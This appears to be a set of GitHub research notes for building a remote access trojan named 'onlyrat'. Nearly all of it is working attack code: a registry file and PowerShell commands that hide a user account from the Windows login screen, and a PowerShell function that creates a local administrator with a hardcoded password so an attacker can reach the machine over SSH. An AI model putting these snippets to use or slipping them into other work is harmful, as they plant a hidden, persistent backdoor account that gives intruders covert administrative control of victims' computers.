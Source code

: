 # Research notes for rat

## Hide_User.reg
- run to hide "onlyrat" user
- use vbs to bypass
```
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList]
"onlyrat"=dword:00000000 ; 
```

HKLM:\software\Microsoft\Windows NT\CurrentVersion\Winlogon

## Create admin for ssh
```powershell
function Create-NewLocalAdmin {
    [CmdletBinding()]
    param (
        [string] $NewLocalAdmin,
        [securestring] $Password
    )    
    begin {
    }    
    process {
        New-LocalUser "$NewLocalAdmin" -Password $Password -FullName "$NewLocalAdmin" -Description "Temporary local admin"
        Write-Verbose "$NewLocalAdmin local user crated"
        Add-LocalGroupMember -Group "Administrators" -Member "$NewLocalAdmin"
        Write-Verbose "$NewLocalAdmin added to the local administrator group"
    }    
    end {
    }
}
$NewLocalAdmin = "onlyrat"
$Password = (ConvertTo-SecureString "12192003" -AsPlainText -Force)
Create-NewLocalAdmin -NewLocalAdmin $NewLocalAdmin -Password $Password

# Remove-LocalUser -Name "onlyrat"
```

## Extraneous
change regs with powershell
```powershell
Set-Location -Path 'HKLM:\software\Microsoft\Windows NT\CurrentVersion\Winlogon'
Get-Item -Path 'HKLM:\software\Microsoft\Windows NT\CurrentVersion\Winlogon' | New-Item -Name 'UserList' -Force
New-ItemProperty -Path 'HKLM:\software\Microsoft\Windows NT\CurrentVersion\Winlogon\UserList' -Name 'onlyrat' -Value "0" -PropertyType DWORD -Force
```
